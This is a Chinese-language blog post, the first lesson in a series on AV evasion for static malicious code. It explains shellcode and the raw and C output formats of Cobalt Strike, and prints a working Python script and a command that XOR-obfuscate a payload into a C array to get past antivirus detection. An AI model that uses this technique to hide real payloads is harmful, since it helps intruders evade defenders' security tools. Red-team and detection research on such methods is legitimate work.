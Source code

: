 ```yaml
---
title: 静态恶意代码逃逸（第一课）
layout: post
date: '2019-11-10'
permalink: "/archivers/2019-11-10/1"
description: 来来回回就会这么一点东西，不想一直停留在一个点上了，准备总结一下，往深的走。
---
```


## 0x00 前言

前五课的代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

在此之前，我分享过《高级后渗透C2免杀与对抗》，其中对于一些原理铺垫上稍有欠缺，因此准备分成几篇文章来展开。

## 0X01 恶意代码的定义

以下文章中的所有关于恶意代码的定义都以Cobaltstrike的载荷为例。

## 0x02 Shellcode定义

Shellcode是一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。当然你可以通过msfvenom生成各种用于测试的shellcode。

## 0x03 RAW文件
RAW 中文意思是原始的、未经加工的，通常使用Cobaltstrike生成的BIN文件。

![2019-11-10-01-55-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c92e631bce3ba5a65abf23ba121a2dbd.png)

RAW文件是可以直接进行字节操作读取的，因此加载到内存较为方便，通常我一般使用混淆的方式再生成一遍。

## 0x04 C文件

![2019-11-10-01-56-09](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0e4a46bbd3c992df26cccad1a51b4c28.png)

C文件给出的是一个C语言中的字符数组，也是可以通过以字节单位操作的。

## 0x05 组合

由于反病毒软件对于默认生成的文件查杀较为严格，我通常会采用混淆、加密解密的方式把载荷还原。

```python
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp, dst_raw):
    shellcode = ''
    shellcode_size = 0
    shellcode_raw = b''
    try:
        while True:
            code = src_fp.read(1)
            if not code:
                break

            base10 = ord(code) ^ num
            base10_str = chr(base10)
            shellcode_raw += base10_str.encode()
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_raw.write(shellcode_raw)
        dst_raw.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
    parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
    parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
    parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
    parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
    args = parser.parse_args()
    shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main()
```

上面这个脚本是我在去年写的，用于把raw文件混淆，生成c语言数组，在后面的文章中，我们也以c/c++语言为主，探究其本质。

### 混淆方案

先生成bin文件，然后运行python脚本：

```
python3 .\xor_shellcoder.py -s .\payload.bin  -d payload.c -n 10
```

在payload.c中会看到raw文件里的每一个字节与10的异或运算出的C语言数组。

![2019-11-10-01-57-13](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/8f85073149fe77ff6bc0040a50f2e3d4.png)

这个数组的内容，将由下一篇文章用到，实践一下Shellcode混淆免杀。